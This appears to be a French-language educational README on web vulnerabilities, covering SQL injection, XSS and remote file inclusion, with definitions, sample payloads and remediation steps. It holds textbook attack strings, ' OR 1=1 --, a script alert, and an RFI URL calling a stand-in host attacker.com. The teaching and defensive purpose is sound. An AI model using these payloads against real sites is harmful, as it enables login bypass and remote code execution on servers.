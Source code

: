 ```**********************************************************************************************************************************************```

# Low - Injection SQL (SQLi)
## Définition:
L'injection SQL permet à un attaquant d'insérer (ou "injecter") du code SQL malveillant dans une requête SQL. Cela peut permettre à l'attaquant de manipuler des bases de données pour exfiltrer des informations sensibles, modifier des données ou même prendre le contrôle de la base de données.
## Comment l'utiliser:
Si tu as une page qui prend des entrées utilisateur, comme un champ de connexion, tu peux essayer d'injecter une commande SQL malveillante. Par exemple, dans un champ de "username", tu peux essayer: ```' OR 1=1 --```
Cette chaîne contourne la vérification du mot de passe en rendant la condition toujours vraie.
## Solution :
- Utiliser des requêtes préparées avec des paramètres liés.
- Valider et filtrer toutes les entrées des utilisateurs.
- Utiliser des comptes avec des privilèges limités sur la base de données.

# Medium - Cross-Site Scripting (XSS)
## Définition:
Le Cross-Site Scripting (XSS) permet à un attaquant d'injecter du code JavaScript malveillant dans une page web, qui sera ensuite exécuté dans le navigateur des utilisateurs lorsqu'ils consultent la page.
## Exploitation:
Par exemple, un attaquant peut injecter ce code dans un champ de commentaire vulnérable sur un site web: ```<script>alert('XSS')</script>```
Cela affichera une alerte dans le navigateur de la victime.
## Solution :
- Encoder toutes les sorties des données utilisateurs (par exemple, utiliser htmlspecialchars() en PHP).
- Mettre en place une politique de sécurité du contenu (CSP) pour restreindre les scripts non autorisés.
- Valider et assainir les entrées utilisateur, notamment les champs de formulaire.

# High - Remote File Inclusion (RFI)
## Définition:
L'attaque Remote File Inclusion (RFI) permet à un attaquant d'inclure un fichier malveillant depuis une URL externe. Si un site permet l'inclusion de fichiers sans validation, un attaquant peut injecter un fichier PHP malveillant, entraînant souvent l'exécution de code sur le serveur.
## Exploitation:
Par exemple, si un site web utilise un paramètre comme include.php?file=page.txt, un attaquant pourrait injecter : ```http://attacker.com/malicious_file.php```
Cela chargerait un fichier PHP malveillant depuis un serveur externe.
## Solution :
- Désactiver l'option allow_url_include dans PHP.
- N'accepter que des fichiers locaux pour l'inclusion et les valider.
- Utiliser une liste blanche de fichiers autorisés à inclure.

```****************************************************************************************************************************************************```

# Comment exploiter ces vulnérabilités
## SQL Injection (SQLi)
1) Exploitation simple :
- Injecter une chaîne comme ' OR 1=1 -- dans un champ de formulaire comme username.
- Cela modifie la requête SQL pour que la condition 1=1 soit toujours vraie, contournant la vérification du mot de passe.
2) Exemple :
- Sur une page de connexion, l'attaquant entre :
    - username: ' OR 1=1 --
    - password: (vide)
- La requête SQL devient SELECT * FROM users WHERE username='' OR 1=1 --' AND password='', ce qui renvoie toujours un résultat.

## XSS (Cross-Site Scripting)
1) Exploitation simple :
- Injecter un script JavaScript malveillant dans un champ vulnérable (comme un commentaire), qui sera ensuite exécuté dans le navigateur de l'utilisateur.
2) Exemple :
- Dans un champ de commentaire, l'attaquant entre: ```<script>alert('XSS')</script>```
- Lorsque quelqu'un consulte la page, ce script est exécuté dans son navigateur, affichant l'alerte.

## RFI (Remote File Inclusion)
1) Exploitation simple :
- Si le site inclut des fichiers via un paramètre comme include.php?file=page.txt, l'attaquant peut soumettre une URL externe pointant vers un fichier PHP malveillant.
2) Exemple :
- Si le site permet l'inclusion de fichiers, l'attaquant pourrait soumettre : ```http://attacker.com/malicious_file.php```
- Cela chargerait un fichier PHP malveillant et l'exécuterait sur le serveur.

```****************************************************************************************************************************************************```

# Comment résoudre ces vulnérabilités
## SQL Injection (SQLi)
1) Utiliser des requêtes préparées et des paramètres liés pour éviter l'injection.
2) Valider et filtrer toutes les entrées des utilisateurs.
3) Donner des privilèges limités aux comptes de la base de données (par exemple, en lecture seule pour les requêtes publiques).

## XSS (Cross-Site Scripting)
1) Encoder toutes les sorties pour éviter que le JavaScript soit exécuté (par exemple, avec htmlspecialchars()).
2) Mettre en place une Content Security Policy (CSP) pour limiter les sources de scripts autorisés.
3) Valider et filtrer toutes les entrées utilisateur dans les formulaires et autres champs.

## RFI (Remote File Inclusion)
1) Désactiver allow_url_include dans PHP.
2) Valider soigneusement les fichiers acceptés pour inclusion (n'accepter que des fichiers locaux).
3) Utiliser une liste blanche des fichiers autorisés à être inclus.

```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```
```****************************************************************************************************************************************************```